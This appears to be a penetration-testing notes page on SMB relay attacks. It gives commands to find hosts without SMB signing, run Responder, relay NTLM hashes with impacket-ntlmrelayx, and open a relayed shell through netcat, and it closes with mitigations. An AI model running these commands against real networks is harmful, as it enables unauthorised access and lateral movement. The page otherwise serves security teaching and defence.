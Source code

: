 # SMB Relay

Instead of cracking hashes gathered with Responder, we can instead relay those hashes to specific machines and potentially gain access.

<figure><img src="../../../.gitbook/assets/image (5) (1).png" alt=""><figcaption></figcaption></figure>

#### Requirements:

* SMB signing **must be disabled** or **not enforced** on the target
* Relay user credentials must be admin on machine for any real value.



#### Methodology:

* Identify Hosts without SMB signing
* Change `Responder` configuration before run it.
* Run `Responder` tool on the right network interface
* Set up our SMB relay



## Identify Hosts without SMB signing

```bash
nmap --script=smb2-security-mode.nse -p445 IP/24
```

<figure><img src="../../../.gitbook/assets/image (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>



## Change Responder conf

The settings SMB and HTTP must be off. This because we have to relay the hashes and not capture them. This port will be use by SMB relay.

```bash
sudo nano /etc/responder/Responder.conf
```

<figure><img src="../../../.gitbook/assets/image (4) (1) (1).png" alt=""><figcaption></figcaption></figure>

## Run Responder tool

```bash
sudo responder -I NETWORK_INTERFACE -dw -v
```

<figure><img src="../../../.gitbook/assets/image (5) (1) (1).png" alt=""><figcaption></figcaption></figure>



## Set up SMB relay

To set up SMB relay we will using `impacket-ntlmrelayx` tool.

```bash
sudo impacket-ntlmrelayx -tf targets.txt -smb2support
```

{% hint style="info" %}
The `targets.txt` file contains all computers identify in the step 1
{% endhint %}

{% code title="targets.txt" lineNumbers="true" %}
```
192.168.X.X
192.168.X.X
```
{% endcode %}

<figure><img src="../../../.gitbook/assets/image (6) (1).png" alt=""><figcaption></figcaption></figure>

### New connection auto-shell

We can set the `ntlmrelayx` to enstablish a shell when the relay can enters into a pc.

```bash
sudo impacket-ntlmrelayx -tf targets.txt -smb2support -i
```

Check the port in the output where the connection has been established,

<figure><img src="../../../.gitbook/assets/image (10).png" alt=""><figcaption></figcaption></figure>

Use netcat to establish the connection.

```bash
nc 127.0.0.1 PORT
```



## Mitigation strategies:

* **Enable SMB Signing on all devices**
  * Pro: Completely stops the attack
  * Con: Con cause performance issues with file copies
* **Disable NTLM authentication on network**
  * Pro: Completely stops the attack&#x20;
  * Con: If kerberos stops working, Windows defaults back to NTLM
* **Account tiering**
  * Pro: Limits domain admins to specific tasks
  * Con: Enforcing the policy may be difficult
* **Local admin restrinction**
  * Pro: Can prevent a lot of lateral movement
  * Con: Potential increase in the amount of service desk tickets
